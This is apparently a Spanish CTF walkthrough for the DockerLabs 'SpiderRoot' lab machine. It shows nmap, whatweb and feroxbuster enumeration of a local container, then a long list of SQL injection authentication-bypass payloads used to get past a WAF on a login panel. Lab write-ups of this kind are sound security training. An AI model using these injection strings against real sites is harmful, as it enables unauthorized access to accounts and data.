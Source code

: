 ## DESCARGAR LA MÁQUINA Y MONTARLA

Nos dirigimos a la página `https://dockerlabs.es/` y allí buscamos la máquina `SpiderRoot` y vamos al enlace para descargarla:

```bash
https://dockerlabs.es/
https://mega.nz/file/6N0EyKqZ#7GKnF_GxBkij0pPofVhA6p-lRrdfscuJBoJxR4qLO6o
```

1- hacemos un unzip del archibo descargado:
  ```bash
  unzip spiderport.zip
  ```
2- entramos en la carpeta que nos ha creado
  ```bash
   cd spiderport
  ```

3- montamos la máquina

  ```bash
  sudo bash auto_deploy.sh spiderport.tar
  ```

![Nmap Scan](images/SpiderRoot/1.png)


## FASE DE ENUMERACIÓN

Vamos a escanear los puertos para ver cuales tienes abiertos, que servicios corren por ellos y si tinen alguna vulnerabilidad:

```bash
 sudo nmap -sS -sCV -Pn --min-rate 5000 -p- -v --open 172.17.0.2 -oN puertosYservicios
```
![Nmap Scan](images/SpiderRoot/2.png)


Vemos dos puertos abiertos:

-22 ssh con versión no vulnerable
-80 http

Antes de ir a la web vamos a lanzar un whatweb :

```bash
whatweb 172.17.0.2 | tee whatweb
```

![Nmap Scan](images/SpiderRoot/3.png)


Salvo que corre un apache poco más, visitamos la página web

![Nmap Scan](images/SpiderRoot/4.png)

Revisando el codigo fuente no vemos nada extraño así que vamos a hacer un fuzz:
```bash
feroxbuster --url "http://172.17.0.2/" -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  -x php,txt,html,zip, ,log,js,cgi,js --scan-dir-listings
```

nos muestra algunas páginas:
```bash
200      GET       99l      256w     2793c http://172.17.0.2/
200      GET       99l      256w     2793c http://172.17.0.2/index.php
301      GET        9l       28w      308c http://172.17.0.2/pages => http://172.17.0.2/pages/
200      GET       32l      117w     1201c http://172.17.0.2/pages/multiverse.php
200      GET       27l       94w      884c http://172.17.0.2/pages/contact.php
200      GET       86l      175w     2178c http://172.17.0.2/pages/heroes.php
200      GET      139l      981w    74877c http://172.17.0.2/pages/images/peter.png
200      GET      193l      725w    72479c http://172.17.0.2/pages/images/gwen.png
200      GET     3677l    20675w  1686413c http://172.17.0.2/pages/images/miles.jpg
301      GET        9l       28w      315c http://172.17.0.2/pages/images => http://172.17.0.2/pages/images/
200      GET       19l       91w     1544c http://172.17.0.2/pages/
```



![Nmap Scan](images/SpiderRoot/5.png)


nos vamos a `http://172.17.0.2/pages/multiverse.php` que resuelve igual que `http://172.17.0.2/?page=multiverse` y tenemos un panel, intentamos una inyección basica
de sqli `' or  1=1-- -`

![Nmap Scan](images/SpiderRoot/6.png)


y nos aparece esto:

![Nmap Scan](images/SpiderRoot/7.png)

Así pues vamos a pasar la petición por burpsuite a ver que hay, vemos un comentario interesante:

![Nmap Scan](images/SpiderRoot/8.png)


De momento vamos a lanzar un ataque de diccionario con querys sql, para ver si podemos evadir el WAF, uso este minidiccionario:
```
'-'
' '
'&'
'^'
'*'
' or ''-'
' or '' '
' or ''&'
' or ''^'
' or ''*'
"-"
" "
"&"
"^"
"*"
" or ""-"
" or "" "
" or ""&"
" or ""^"
" or ""*"
or true--
" or true--
' or true--
") or true--
') or true--
' or 'x'='x
') or ('x')=('x
')) or (('x'))=(('x
" or "x"="x
") or ("x")=("x
")) or (("x"))=(("x
or 1=1
or 1=1--
or 1=1#
or 1=1/*
admin' --
admin' #
admin'/*
admin' or '1'='1
admin' or '1'='1'--
admin' or '1'='1'#
admin' or '1'='1'/*
admin'or 1=1 or ''='
admin' or 1=1
admin' or 1=1--
admin' or 1=1#
admin' or 1=1/*
admin') or ('1'='1
admin') or ('1'='1'--
admin') or ('1'='1'#
admin') or ('1'='1'/*
admin') or '1'='1
admin') or '1'='1'--
admin') or '1'='1'#
admin') or '1'='1'/*
1234 ' AND 1=0 UNION ALL SELECT 'admin', '81dc9bdb52d04dc20036dbd8313ed055
admin" --
admin" #
admin"/*
admin" or "1"="1
admin" or "1"="1"--
admin" or "1"="1"#
admin" or "1"="1"/*
admin"or 1=1 or ""="
admin" or 1=1
admin" or 1=1--
admin" or 1=1#
admin" or 1=1/*
admin") or ("1"="1
admin") or ("1"="1"--
admin") or ("1"="1"#
admin") or ("1"="1"/*
admin") or "1"="1
admin") or "1"="1"--
admin") or "1"="1"#
admin") or "1"="1"/*
1234 " AND 1=0 UNION ALL SELECT "admin", "81dc9bdb52d04dc20036dbd8313ed055
```

![Nmap Scan](images/SpiderRoot/9.png)


Pues vemos que ha funcionado, nos vamos a la página e introducimos la query:


![Nmap Scan](images/SpiderRoot/10.png)



![Nmap Scan](images/SpiderRoot/11.png)




